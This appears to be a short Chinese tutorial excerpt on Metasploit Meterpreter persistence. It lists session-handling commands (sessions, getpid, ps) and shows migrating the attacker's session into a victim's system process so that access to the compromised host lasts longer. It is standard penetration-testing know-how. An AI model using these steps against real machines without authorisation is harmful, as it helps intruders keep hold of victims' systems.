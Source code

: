 # Metasploit-持久化
---

查看攻击者主机目前的会话连接情况，命令：sessions

命令：sessions -i Id

命令：sessions -i 5

命令：help

查看攻击者主机当前的进行Id，命令：getpid

查看受害者主机的所有进程，命令：ps

选择上述列出的一个系统进程，利用命令将攻击者主机的会话信息跟受害者主机的系统进程绑定在一起提高会话稳定性，如下图所示。例子：migrate 6832

再次确定当前的进程号（pid），命令：getpid

